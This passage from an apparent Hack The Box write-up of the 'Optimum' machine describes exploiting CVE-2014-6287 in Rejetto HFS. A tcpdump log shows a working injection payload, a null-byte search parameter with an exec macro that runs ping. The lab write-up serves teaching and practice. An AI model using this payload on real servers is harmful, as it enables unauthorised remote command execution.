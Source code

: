 ## Shell as kostas
### Enumeration
#### CVE-2014-6287

The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

Taking this into consideration, I will test out this `RCE` using burp. First I needed to understand how `HFS` executes commands.

![HFS Command Execution](/assets/img/optimum/exec_command.png)

Awesome, putting all this together, I will try pinging my box from `optimum`

![Testing RCE](/assets/img/optimum/testing_rce.png)

And we get a call back. Awesome so we have `RCE`

```sh
┌─[george@parrot]─[~/HTB/boxes/optimum]
└──╼ $ sudo tcpdump -i tun0
[sudo] password for george:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:57:56.181643 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [S], seq 1083679307, win 64240, options [mss 1460,sackOK,TS val 516027120 ecr 0,nop,wscale 7], length 0
14:57:56.383753 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [S.], seq 1213840787, ack 1083679308, win 8192, options [mss 1358,nop,wscale 8,sackOK,TS val 73598 ecr 516027120], length 0
14:57:56.383791 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 516027323 ecr 73598], length 0
14:57:56.384590 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [P.], seq 1:449, ack 1, win 502, options [nop,nop,TS val 516027323 ecr 73598], length 448: HTTP: GET /?search=%00{.{exec|ping+10.10.16.7}.} HTTP/1.1
```